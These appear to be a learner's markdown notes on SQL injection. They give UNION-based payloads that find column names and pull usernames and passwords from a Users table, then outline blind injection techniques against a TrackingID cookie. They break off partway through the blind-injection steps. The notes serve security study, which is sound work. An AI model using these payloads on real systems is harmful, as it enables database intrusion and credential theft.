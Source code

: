 - Find Columns Name
```
' UNION SELECT column_name, NULL, ... FROM information_schema.columns WHERE table_name = 'TABLE_FOUND_PREVIOUS_TASK' --
```
	- information_schema.columns      ---> Depend on the type of DB
	- table_name                      ---> Depend on the type of DB

- Find Database Value
```
' UNION SELECT username, password, NULL, ... FROM Users --
```

- Reformat Values
```
' UNION SELECT CONCAT(username, ",", password),NULL,... FROM Users--
```

**IF YOUR KEEP GETTING ERROS AND THINK THE SYNTHAX IS CORRECT, CHECK THE VERSION AND TYPE OF THE DATABASE (THIS SHOULD CHANGE YOUR QUERY)**

---

## <u>Steps SQL Injection (Blind)</u>

Type of SQL Injection (Blind) & Witch one to use (Depending on situation)
	- Equality Check                ---> Response show an element on the HTML page (Welcome Back)
	- Concatenation                 ---> Response from query can return 200 and 500 responses
	- Time Base                        ---> No response change in the request (Always 200)


## Equality Check Technique

Steps
- Prove parameter is vulnerable
- Find Tables
- Find Column Name ??? (Review)
- Find Variables in a Column
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Screenshot from 2022-12-05 18-45-22.png]]

Prove the TrackingID is vulnerable
```
' (error) & '' (back to normal)


```

The SQL request (Complement of prouving the TrackingID is vulnerable)
```
select tracking-id from tracking-table where trackingId = 'wQzpcksV9nxMDwHH'
```
- In this example, if the tracking id is true, it will return on the page "welcome back" (This will be our True and False statment that will help us determine if the SQL injection request we are doing is working or not working)
